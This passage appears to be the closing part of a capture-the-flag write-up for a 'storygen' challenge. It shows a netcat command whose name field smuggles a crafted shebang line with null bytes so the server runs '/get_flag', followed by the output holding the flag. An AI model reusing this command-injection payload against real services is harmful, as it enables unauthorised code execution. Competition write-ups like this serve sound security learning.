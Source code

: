 ```
== proof-of-work: disabled ==
Welcome to a story generator.
Answer a few questions to get started.

What's your name?
Where are you from?
Do you want to hear the personalized, procedurally-generated story?


Usage: /get_flag Give flag please


Do you want to hear the personalized, procedurally-generated story?
```
So this still doesn't work, and that is because ``/get_flag`` still receives ``/tmp/script.sh`` as argument at the end. Let's just call a separate shell to interpret that.
```
$ echo -ne '!/usr/bin/env -S /bin/sh -c "/get_flag Give flag please"\x00\x00\nMorrowind\nyes\n' | nc storygen.2023.ctfcompetition.com 1337
== proof-of-work: disabled ==
Welcome to a story generator.
Answer a few questions to get started.

What's your name?
Where are you from?
Do you want to hear the personalized, procedurally-generated story?


CTF{Sh3b4ng_1nj3cti0n_ftw}


Do you want to hear the personalized, procedurally-generated story?
```
There it is! And it's finally a flag that doesn't have ``.hidden`` in it!
